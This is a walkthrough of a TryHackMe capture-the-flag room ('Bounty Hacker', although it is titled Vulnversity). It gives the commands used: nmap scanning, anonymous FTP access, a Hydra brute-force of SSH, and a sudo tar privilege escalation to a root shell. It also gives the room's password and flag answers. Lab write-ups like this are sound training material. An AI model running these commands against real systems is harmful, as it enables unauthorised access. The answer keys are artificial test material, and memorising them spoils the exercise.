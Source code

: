 # Vulnversity Wlakthrough
### Link
- https://tryhackme.com/room/cowboyhacker
------------------------
- Find open ports on the machine
    - sudo nmap -sC -sV -p- [IP]
        - picture: [Bounty_Hacker_1.png](https://github.com/LNB283/THM/blob/main/EASY/Bounty%20Hacker/Pictures/Bounty_Hacker_1.png)
        - Port open : FTP / SSH / Web Server
        - Connect to FTP with anonymous user
        - picture: [Bounty_Hacker_2.png](https://github.com/LNB283/THM/blob/main/EASY/Bounty%20Hacker/Pictures/Bounty_Hacker_2.png)
        - Download files
        - picture: [Bounty_Hacker_3.png](https://github.com/LNB283/THM/blob/main/EASY/Bounty%20Hacker/Pictures/Bounty_Hacker_3.png)
        - analyze files
            - locks.txt --> password list
            - picture: [Bounty_Hacker_4.png](https://github.com/LNB283/THM/blob/main/EASY/Bounty%20Hacker/Pictures/Bounty_Hacker_4.png)
            - task.txt --> we found a name "lin"
            - picture: [Bounty_Hacker_5.png](https://github.com/LNB283/THM/blob/main/EASY/Bounty%20Hacker/Pictures/Bounty_Hacker_5.png)
- Who wrote the task list?
    - **Answer** : lin
- What service can you bruteforce with the text file found?
    - **Answer** : ssh
- What is the users password? 
    - Hydra
        - hydra -l lin -P locks.txt ssh://[IP]
        - picture: [Bounty_Hacker_6.png](https://github.com/LNB283/THM/blob/main/EASY/Bounty%20Hacker/Pictures/Bounty_Hacker_6.png)
    - **Answer** : RedDr4gonSynd1cat3
- user.txt
    - Log with lin username/password
    - picture: [Bounty_Hacker_7.png](https://github.com/LNB283/THM/blob/main/EASY/Bounty%20Hacker/Pictures/Bounty_Hacker_7.png)
    - Check the user.txt flag
    - picture: [Bounty_Hacker_8.png](https://github.com/LNB283/THM/blob/main/EASY/Bounty%20Hacker/Pictures/Bounty_Hacker_8.png)
    - **Answer** : THM{CR1M3_SyNd1C4T3}
- root.txt
    - check what action are authorize with lin account
        - sudo -l
        - picture: [Bounty_Hacker_10.png](https://github.com/LNB283/THM/blob/main/EASY/Bounty%20Hacker/Pictures/Bounty_Hacker_10.png)
        - /bin/tar
        - Visit https://gtfobins.github.io/#
            - Search tar
            - picture: [Bounty_Hacker_11.png](https://github.com/LNB283/THM/blob/main/EASY/Bounty%20Hacker/Pictures/Bounty_Hacker_11.png)
            - Try : sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
        - Escalate root privilege
        - Verify
            - id
            - picture: [Bounty_Hacker_12.png](https://github.com/LNB283/THM/blob/main/EASY/Bounty%20Hacker/Pictures/Bounty_Hacker_12.png)
        - Search root.txt
            - find / -name "root.txt" 2>/dev/null
            - picture: [Bounty_Hacker_13.png](https://github.com/LNB283/THM/blob/main/EASY/Bounty%20Hacker/Pictures/Bounty_Hacker_13.png)
    - **Answer** : THM{80UN7Y_h4cK3r}



